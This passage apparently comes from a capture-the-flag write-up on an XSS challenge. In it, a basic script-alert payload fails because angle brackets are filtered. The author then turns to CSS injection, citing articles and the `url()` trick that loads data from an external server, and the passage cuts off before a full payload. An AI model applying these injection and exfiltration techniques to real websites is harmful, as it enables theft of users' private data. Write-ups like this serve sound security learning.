 ![Pasted image 20250823042521.png](Pasted_image_20250823042521.png)

Obviously, the XSS would be in this input field. First I tried a normal payload:

### Payload Testing
```html
<script>alert('babayaga0x01');</script>
```

Didn't work because `<>` were blocked. I thought maybe CSS could be the key (like I expected). 

![Pasted image 20250823043035.png](Pasted_image_20250823043035.png)

After some searching with my team, we found these articles and shifted to CSS injection with external URL loads:
- [Beyond XSS: CSS Injection](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)
- [Private data stolen via CSS Injection](https://www.invicti.com/blog/web-security/private-data-stolen-exploiting-css-injection/)
- [CSS data exfiltration in Firefox](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)

There's this CSS trick with `url(https://myserver.com?q=a)` where you can load external URLs. So I tried this to embed a gif:

